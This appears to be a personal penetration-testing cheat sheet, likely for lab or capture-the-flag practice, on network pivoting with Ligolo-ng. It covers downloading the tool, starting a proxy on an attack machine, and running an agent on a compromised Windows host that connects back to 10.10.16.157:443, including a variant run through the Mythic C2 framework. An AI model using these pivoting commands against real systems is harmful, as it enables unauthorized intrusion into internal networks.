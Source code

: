 //TODO: UPDATE ESPANSO TO USE MODERN LIGOLO WINDOWS AGENT, LINUX AGENT, AND LINUX SERVER

Ligolo is used for pivoting. We can install it with the below commands, and rename it to make the names more obvious

```bash
# Get windows agent, extract it, and rename it
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_windows_amd64.zip && unzip ligolo-ng_agent_0.8.2_windows_amd64.zip && mv agent.exe ligolo-windows-agent.exe && rm *.zip && rm *.md && rm LICENSE

# Get the Linux Proxy Server, Extract it, and rename it
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz && tar -xvf ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz && mv proxy ligolo-proxy-server && rm *.gz && rm *.md && rm LICENSE


# Get the Linux Agent, Extract it, and rename it
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_linux_amd64.tar.gz && tar -xvf ligolo-ng_agent_0.8.2_linux_amd64.tar.gz && mv agent ligolo-linux-agent && rm *.gz && rm *.md && rm LICENSE

```

There's two parts: a proxy server running on our attack machine, and agents running on compromised machines. The agents will call back to the attacking machine's proxy server.

We can setup our proxy server like so, to add the ligolo interface, set it up, and then run the proxy server, which will listen on port 443 for connections.
```bash
sudo ip tuntap add user kali mode tun ligolo ; sudo ip link set ligolo up && sudo ./ligolo-proxy-server -selfcert -laddr 0.0.0.0:443


```

We can run the agent (after uploading it) with
```cmd
C:\Windows\tasks\ligolo-windows-agent.exe -connect 10.10.16.157:443 -ignore-cert
```
If we're in Mythic, we can use
```
run -Executable C:\Windows\tasks\ligolo-windows-agent.exe -Arguments "-connect 10.10.16.157:443 -ignore-cert"
```

## Autoroute
We need to add the internal IP range so that it gets routed. We can use autoroute for this
```bash
sessions
1
autoroute

# Check range is valid
# Add a new interface
# Then start the tunnel

```